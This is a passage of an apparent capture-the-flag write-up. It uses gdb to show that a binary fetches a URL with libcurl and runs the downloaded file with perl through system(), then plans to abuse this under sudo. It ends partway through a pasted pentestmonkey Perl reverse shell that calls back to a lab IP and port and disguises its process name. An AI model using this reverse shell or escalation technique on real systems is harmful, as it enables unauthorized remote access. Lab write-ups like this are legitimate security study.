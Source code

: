 Above I set breakpoints at addresses `0x00005555555554f9`, `0x000055555555551a`, `0x000055555555553c`, and `0x0000555555555548`, then run the executable with `r foobarbaz lDnxUysaQn`, where `foobarbaz lDnxUysaQn` are two arguments passed in.

So, it looks like our first argument to the binary, `foobarbaz` is passed as third arg to function `curl_easy_setopt`, while `0xc0dedbad` (lol) is the handle and `0x2712` is the option:

```
curl_easy_setopt(CURL *handle, CURLoption option, parameter);
```

Searching online, `0x2712` appears to be `CURLOPT_URL` - the option for setting the URL to retrieve!.. So with this in mind, let's re-run locally after deleting all breakpoints, and break on the `system` call that occurs after `curl_easy_perform` -- after ensuring we are running a HTTP server with `python -m http.server 6969`:

```
(gdb) break *0x0000555555555657
Breakpoint 10 at 0x555555555657

(gdb) r http://localhost:6969 lDnxUysaQn
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/zara/investigation/binary http://localhost:6969 lDnxUysaQn
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Running... 

Breakpoint 10, 0x0000555555555657 in main ()

(gdb) x/s $rdi
0x55555555ab30:    "perl ./lDnxUysaQn"
```

So, when we print the first argument (`RDI` register) to the `system` call as a string, it's a command to call the `perl` interpreter on the file we just downloaded.

What does this all mean (the eternal question)?  Assuming we call our binary with `sudo /usr/bin/binary http://myurl:1234/file lDnxUysaQn` , it will use libcurl to download the URL, write it to file `lDnxUysaQn`, and run it against perl.

With all this in mind, we create the following reverse shell in perl locally (taken from pentest monkey):

```perl
#!/usr/bin/perl -w
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '10.10.14.33';
my $port = 3322;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
        # source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
```